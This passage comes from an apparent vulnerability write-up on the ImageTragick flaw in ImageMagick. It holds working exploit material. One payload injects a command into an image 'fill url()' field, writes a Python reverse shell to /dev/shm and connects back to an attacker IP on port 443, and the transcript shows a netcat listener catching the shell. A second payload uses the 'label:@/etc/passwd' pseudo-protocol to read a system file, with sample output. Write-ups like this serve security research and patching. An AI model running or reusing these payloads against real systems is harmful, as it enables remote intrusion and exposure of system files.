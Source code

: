 While back on the netcat instance on the attacker host, have a working remote shell:

    root@kali:~/Downloads/ImageMagick-6.9.2-10# nc -l -p 443
    uname
    Linux
    /root/git/PoCs> date
    Sun 29 Sep 2019 04:24:52 PM AEST
    /root/git/PoCs> 


A variation would be to pack the python, avoiding the download step which adds a level of brittleness to the exploit, as the host might not have outbound network connectivity, and so on:

    fill 'url(https://example.com/image.jpg"|/bin/echo -e \'import 
    socket\x2csubprocess\x2cos;s=socket.socket(socket.af_inet\x2csocket.sock_stream);
    s.connect(("xx.xx.24.85"\x2c443));p=subprocess.call(\x5b"/bin/sh"\x2c"-i"\x5d);\'
    > /dev/shm/a.py|python "/dev/shm/a.py)'



## Local file read

In a similar vain to the insufficient shell character filtering potentially enabling remote code execution, ImageMagicks `label` psudeo protocol, opens a whole other can of worms, making it possible to read the contents of any file. The below example file input payload, when fed into the `convert` utility, will literally read `/etc/passwd`, and render its contents in the output `out.png`.

The input image payload `read.jpg`:

    push graphic-context
    viewbox 0 0 640 480
    image over 0,0 0,0 'label:@/etc/passwd'
    popgraphic-context

Invoking ImageMagick's `convert` utility to take the image as input, will convert and render it as another output:

    convert read.jpg out.png 2>/dev/null 1>/dev/null

Examining the output rendered file:

    root@kali:~/git/PoCs# cat /etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    ...





# Root cause analysis

As @zalewski puts it, the ImageTragick flaw is most notable for its ease of exploitation.
